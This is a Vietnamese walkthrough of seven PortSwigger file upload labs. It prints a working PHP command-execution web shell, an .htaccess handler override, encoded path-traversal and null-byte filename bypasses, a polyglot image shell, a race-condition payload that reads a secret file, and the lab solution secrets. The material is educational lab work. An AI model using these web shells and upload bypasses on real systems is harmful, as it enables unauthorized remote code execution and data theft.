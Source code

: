 # File upload vulnerabilities - Portswigger
## 1. Remote code execution via web shell upload
Bài này khá đơn giản mình chỉ cần upload một file .php chứa webshell lên thay vì ảnh bình thường là được
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![image](https://github.com/b4shu206/PortSwigger/blob/main/FILE%20UPLOAD%20VULNERABILITY/image/upload_9767f6ee6f146e7dbb1b1fc725bd1efd.png?raw=true)
Ta dùng lệnh để đọc nội dung trong file secret và có được secret là `TswuW44vMztdKYo8mmAF4TkkJgZjPP8H`
![image](https://hackmd.io/_uploads/rk14nYvd1e.png)
Nạp secret và solved được lab.
## 2. Web shell upload via Content-Type restriction bypass
Lần này ta chỉ việc thay đổi content-type thành `image/png` là đã upload thành công webshell
![image](https://hackmd.io/_uploads/rJjGTKPOyg.png)
Dùng lệnh đọc và lấy được secret `KnLwUfLjerQDbWM72RyBeFGqdI6zSjkh`
![image](https://hackmd.io/_uploads/SkAmTYwdJg.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/SJ8U6KvO1x.png)
## 3. Web shell upload via path traversal
Ta đọc đề thì thấy ta cần kết hợp với lỗi path traversal. Mình có thử upload lên nhưng webshell không hoạt động
![image](https://hackmd.io/_uploads/H17bAKPdyl.png)
Vậy ta cần đổi tên file để có thể upload ra ngoài thư mục avatars và webshell ta nó sẽ hoạt động.
Ta search payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)
![image](https://hackmd.io/_uploads/S1BYAKvdJx.png)
Có vẻ nhưng `../` , `..\` , `../\` đều đã bị chặn. Nên mình đã dùng `%2e%2e%2f` thì đã upload được thành công ra ngoài.
![image](https://hackmd.io/_uploads/SkwCAYPOJe.png)
Truy cập bằng `files/test.php` và đọc file thì được secret `ivFsLt8JIcyD0Y8EriCp5xEg3Mre4OOW`
![image](https://hackmd.io/_uploads/H1o-J5Pd1x.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/ByN7J5DOyl.png)
## 4. Web shell upload via extension blacklist bypass
Lần này đã bị block hết đuôi `.php`
![image](https://hackmd.io/_uploads/BJw4z5wO1l.png)
Và không upload được, mình có thử các đuôi khác như php3,php5,php7,... thì file không hoạt động.
Đọc hint thì thấy cần up 2 file khác nhau
![image](https://hackmd.io/_uploads/SJ5LGqDd1g.png)
Đọc document thì phát hiện ra ta có thể upload file .htaccess và ghi đè lên nó
![image](https://hackmd.io/_uploads/Sye2z9vuJe.png)
Ta có thể cho 1 đuôi bất kỳ nhưng vẫn hoạt động như file .php bằng nội dung sau thì file .test sẽ hoạt động như .php
```
<FilesMatch "\.test$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
![image](https://hackmd.io/_uploads/SyCrXqDdyg.png)
Giờ ta chỉ việc sửa đuôi file và tên file là `test.test` và upload thôi
![image](https://hackmd.io/_uploads/B1l_m9wdke.png)
Vậy là ta đã upload thành công giờ chỉ việc đọc file và lấy được secret là `VQMWq5rpLrkIqlUiBzngnRvFd9skJLJX`
![image](https://hackmd.io/_uploads/ryr37cw_ke.png)
Nạp và ta đã solved được lab.
![image](https://hackmd.io/_uploads/Hy26m5vdyx.png)
## 5. Web shell upload via obfuscated file extension
Ta tiếp tục đọc document
![image](https://hackmd.io/_uploads/B15KNcD_kl.png)
Thì bày này chỉ chấp nhận việc ta upload file `.jpg` hoặc là `.png`
![image](https://hackmd.io/_uploads/B1eSBcPOyg.png)
Và nó chỉ cần có đuôi `.jpg` hoặc `.png` ở cuối là được ta có thể bypass bằng cách thêm byte null trước đuôi `.png` thì vẫn bypass qua được nhưng đuôi `.png` sẽ biến mất
![image](https://hackmd.io/_uploads/ry1hr9Dukx.png)
Vậy là ta đã upload thành công. Giờ chỉ việc đọc file và có được secret là `rHv3lt6txH4VT1iYVdvztrkbOh7qgGQa`
![image](https://hackmd.io/_uploads/SypE8cDOJl.png)
Và solved được lab
![image](https://hackmd.io/_uploads/SkbILcvdyl.png)
## 6. Remote code execution via polyglot web shell upload
Vì bài này chỉ check content trong có chính xác là bức ảnh hay không nên ta thử đổi tên file là `.php` thì vẫn upload bình thường
![image](https://hackmd.io/_uploads/rkpA_cD_ye.png)
Giờ ta chỉ việc chèn webshell ở dưới nội dung ảnh và up lên là được
![image](https://hackmd.io/_uploads/ryRWY5vdJe.png)
Và ta đã upload thành công webshell lên và lấy được secret là `tVhTcZSPJdxe2ObMmUN7bY2oletBZsnU`
![image](https://hackmd.io/_uploads/ByxEF9wO1g.png)
Submit và đã solved được lab
![image](https://hackmd.io/_uploads/r1irK5v_1e.png)
## 7. Web shell upload via race condition
Mình thử upload 1 loạt file lên thì đều không thành công
![image](https://hackmd.io/_uploads/Bk1cdsDOJe.png)
Nên đọc thử document
![image](https://hackmd.io/_uploads/B1wROjPdye.png)
Và đọc hint thì ta có sourcecode
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Thì có vẻ giống như document nó vẫn tải lên và lưu trữ  sau đó mới chuyển rồi kiểm tra và khi không vượt qua kiểm tra thì mới xóa.
Trong thời gian di chuyển thì mình có thể chèn thêm 1 request `GET` để chạy file mình vừa upload lên
Nội dung file là:
```php
<?php
echo "<pre>" . htmlspecialchars(file_get_contents('/home/carlos/secret')) . "</pre>";
?>
```
Và ta gộp thành group và sử dụng chức năng `Send group (parallel)` để có thể gửi 2 request này cùng lúc.
![image](https://hackmd.io/_uploads/rJpoFivuyl.png)
Cách này còn tùy thuộc vào mạng nhà bạn và độ nhân phẩm =))
Sau rất nhiều lần gửi đi gửi lại thì mình đã đọc và có được secret.
![image](https://hackmd.io/_uploads/H1wLujP_kx.png)
Đem đi nạp và solved được lab.
![image](https://hackmd.io/_uploads/HkPwOiPuyl.png)
